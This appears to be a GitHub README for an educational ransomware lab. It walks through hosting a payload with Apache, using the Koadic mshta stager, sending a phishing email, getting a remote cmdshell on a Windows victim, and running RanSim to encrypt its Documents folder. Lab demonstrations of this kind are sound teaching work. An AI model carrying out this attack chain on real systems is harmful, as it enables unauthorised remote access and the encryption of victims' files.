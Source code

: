 # Ransomware-demo
The repo is about demonstrating how the ransomware works in the system for education purpose.

## Contents
- [Legal Disclaimer](#legal-disclaimer)
- [Environment](#environment)
- [Getting Started](#getting-started)
- [Credits](#credits)

## Legal Disclaimer

This project must not be used for illegal purposes or for hacking into system where you do not have permission, it is strictly for educational purposes. Performing any hack attempts or tests without written permission from the owner of the computer system is illegal. Badware project must not be used for illegal purposes. It is strictly for educational purposes.

## Environment
![image](https://github.com/leonlamsc/Ransomware-demo/assets/140391766/d91e0bd5-8174-4f4d-8423-c3228b9b0325)

## Getting Started


1. Apache2.service
- Host a temporary HTTP server 
- Upload and Download of file to the server
  
command

- `sudo systemctl start apahce2.service`
![image](https://github.com/leonlamsc/Ransomware-demo/assets/140391766/df87e25f-65a7-44e1-9310-ff78b1d367c3)

2. Koadic
- a Windows post-exploitation rootkit
- Learn how to use this item to remote access the Windows machine
- Deploy powershell commands secretly

command

- `kodiac`

- `use stager/js/mshta && info`


![image](https://github.com/leonlamsc/Ransomware-demo/assets/140391766/c18c125b-79c4-4935-9ba9-49e6eb6d96b1)

![image](https://github.com/leonlamsc/Ransomware-demo/assets/140391766/f08e7c8a-28e0-4597-a1ea-3d437344e381)


3. Phishing email demo

![image](https://github.com/leonlamsc/Ransomware-demo/assets/140391766/91e464fa-03d3-4d31-ad6a-7524005619b1)


4. Download the update.bat and execute it in the victim machine 
![image](https://github.com/leonlamsc/Ransomware-demo/assets/140391766/1ec8b0ab-1f97-4176-847e-367c77819c30)


5. Gain the remote access of the Windows in Kodiac

command

- `zombies`

- `cmdshell 0`

![image](https://github.com/leonlamsc/Ransomware-demo/assets/140391766/f7593284-443d-4a39-a0ba-0b4548e2e2ea)

6. Execute the RanSim malware program

command

- `powershell.exe -Command ".\RanSim.ps1 -mode encrypt -TargetPath C:\Users\Administrator\Documents`
![image](https://github.com/leonlamsc/Ransomware-demo/assets/140391766/718e74ad-536a-4bd7-b91a-7deb42f33f5c)


7. Result: 

![image](https://github.com/leonlamsc/Ransomware-demo/assets/140391766/8a8177b6-0a59-49db-b5e9-a1544b5520ee)

For decryption:

command

- `powershell.exe -Command ".\RanSim.ps1 -mode decrypt -TargetPath C:\Users\Administrator\Documents`

## Credits
- [RanSim](https://github.com/lawndoc/RanSim) 

- [Loi Liang Yeung Youtube channel](https://www.youtube.com/watch?v=UImsfTpYjvU)
